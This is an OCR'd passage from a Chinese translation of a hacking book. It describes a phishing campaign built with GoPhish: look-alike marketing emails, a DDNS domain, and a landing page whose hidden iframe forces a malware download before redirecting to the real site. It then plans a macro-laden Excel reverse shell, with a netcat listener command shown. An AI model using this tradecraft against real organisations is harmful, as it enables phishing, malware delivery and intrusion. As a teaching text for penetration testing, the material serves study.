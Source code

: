 > ![](./media/image8.jpeg){width="4.955452755905512in"
> height="2.7222222222222223in"}
>
> 我们设计电子邮件的内容，使其方式类似于我们从市场营销人员那里获得的电子邮件（相同的签名、相同的颜色图表、相同的字体等）。该电子邮件将邀请用户单击下载文件的链接。链接将由GoPhish自动填写{{.URL}}变量。
>
> 包含链接而不是直接附加恶意文件可以降低被垃圾邮件过滤器捕获的可能性。
>
> 我们在http://www.noip.com/上为Front Gun
> server注册了一个免费的DNS名称。像sph-group.ddns.net这样的已经足够了。我们稍后在启动钓鱼活动时，需要将此DNS名称指定为变量{{.URL}}的值。
>
> 由于我们不需要诱骗用户向我们提供凭据，因此我们不关心网页的内容。我们将自动触发文件下载，然后将其重定向到真正的SPH网站。
>
> 在Gophish的"Landing Page(登陆页面)"菜单中，我们粘贴以下代码：
```html
<html>

<iframe width="1" height="1" frameborder="0" src=" [File
location on Gophish machine]"></iframe>

<meta http-equiv="refresh"
content="5;url=http://www.sph-assets.com" />

</html>
```

> 钓鱼活动已经准备好启动，除了一个小细节：恶意软件。这将是下一章的主题。

### 恶意文件

> 关于我们可以发送给目标的文件类型，有几种可能性。
> 但是，一个可执行文件（.exe）非常可疑[16]，并且将被所有电子邮件客户端丢弃。我们将使用一些更聪明的东西：一个包含恶意代码的excel电子表格，它可以反向请求我们的服务器，获取执行命令，然后发回结果：反向shell。

1)  **VBA pure breed**

> Visual
> Basic是一种脚本语言，可以嵌入到Office文档（Word、Excel、PowerPoint等）中。它在企业中，被大量使用来处理数据。
> 因此，员工习惯于在打开文档时执行宏（VBA代码）。
>
> 如果您是一个VBA大师，我相信您可以快速找到与我们的Front
> Gun服务器联系的代码，检索命令，然后在受感染的计算机上执行它们。然而，由于VBA绝对不是我的最爱，我将依靠一个自动框架，它提供了许多工具来利用系统并生成有效载荷：Metasploit
> [17]。 它默认安装在Kali Linux上。
>
> 由于我们首先要测试代码，因此我们使用Netcat工具在Front
> Gun服务器上设置了一个监听器。它通常被称为黑客的瑞士军刀。它只是发送和接收原始套接字连接，但它也可以用于获取反向shell，传输文件等。
>
> 此命令将打开端口443并等待传入连接。
```bash
root@FrontGun:~# nc -l -p 443
```
> 接下来，我们使用Metasploit框架的msfvenom来生成恶意VBA有效负载。
```bash
```
